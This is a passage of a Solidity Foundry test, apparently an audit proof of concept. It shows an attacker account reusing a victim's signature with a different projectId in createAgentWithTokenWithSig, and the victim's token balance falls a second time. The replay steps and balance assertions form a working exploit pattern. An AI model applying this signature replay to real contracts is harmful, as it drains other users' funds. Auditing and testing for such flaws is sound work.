 ```solidity
        );

        // Attacker uses the signature with the original projectId (legitimate use)
        vm.prank(attacker);
        blueprint.createAgentWithTokenWithSig(
            originalProjectId,
            base64Proposal,
            address(0),
            serverURL,
            address(mockToken),
            signature
        );

        uint256 balanceAfter1 = mockToken.balanceOf(victim);
        assertEq(
            balanceAfter1,
            900 * 10 ** 18,
            "Balance after first use should be 900 tokens"
        );

        // Now the attacker tries to use the same signature with a different projectId
        bytes32 differentProjectId = bytes32(uint256(2));

        // Use a separate function to test the second signature use to avoid stack too deep
        _testSecondSignatureUse(
            differentProjectId,
            base64Proposal,
            serverURL,
            signature,
            initialBalance,
            balanceAfter1
        );
    }

    function _testSecondSignatureUse(
        bytes32 differentProjectId,
        string memory base64Proposal,
        string memory serverURL,
        bytes memory signature,
        uint256 initialBalance,
        uint256 balanceAfter1
    ) internal {
        vm.prank(attacker);

        // This should revert if the contract properly validates signatures
        try
            blueprint.createAgentWithTokenWithSig(
                differentProjectId,
                base64Proposal,
                address(0),
                serverURL,
                address(mockToken),
                signature
            )
        {
            // If we reach here, the signature was accepted with a different projectId
            // This is the vulnerability!
            uint256 balanceAfter2 = mockToken.balanceOf(victim);
            assertEq(
                balanceAfter2,
                800 * 10 ** 18,
                "Balance after second use should be 800 tokens"
            );
```